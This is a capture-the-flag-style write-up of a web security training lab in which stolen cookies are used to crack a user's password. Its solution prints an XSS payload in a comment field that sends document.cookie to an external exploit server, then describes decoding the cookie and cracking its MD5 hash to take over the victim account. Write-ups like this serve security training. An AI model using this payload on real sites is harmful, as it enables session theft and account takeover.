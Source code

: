 ```yaml
---
layout: post
title:  "Offline password cracking"
date:   2024-10-23 10:20:54 +0530
categories: [BSCP, Authentication]
---
```


## Objective 

This lab stores the user's password hash in a cookie. The lab also contains an XSS vulnerability in the comment functionality. To solve the lab, obtain Carlos's stay-logged-in cookie and use it to crack his password. Then, log in as carlos and delete his account from the "My account" page.

- `Your credentials:` wiener:peter
- `Victim's username:` carlos

## Solution 

Going through the lab objective, we know that there is XSS vulnerability exists and what we did his.. filled up all the details in post and in the comment field, instead of adding the some random text but we entered the following payload `<img src=x onerror=this.src='https://exploit-0a5500ba03e5afe48033843a012600ff.exploit-server.net/?c='+document.cookie>` and posted the comment 

Checking the Access log through the exploit server, we found the following cookies value 

![]({{ site.baseurl }}/assets/images/auth/auth-43.png)

Now let's copy the `stay-logged-in` cookie value and decoded it in a base64 format and found that this cookie belongs to `carlos` user just like the previous lab and suprisingly the password is also in MD5 hash format 

![]({{ site.baseurl }}/assets/images/auth/auth-44.png)

Decrypted MD5 hash and password will be `onceuponatime` 

![]({{ site.baseurl }}/assets/images/auth/auth-45.png)

Now login into `carlos` user with password as `onceuponatime` that solves the lab 

![]({{ site.baseurl }}/assets/images/auth/auth-46.png)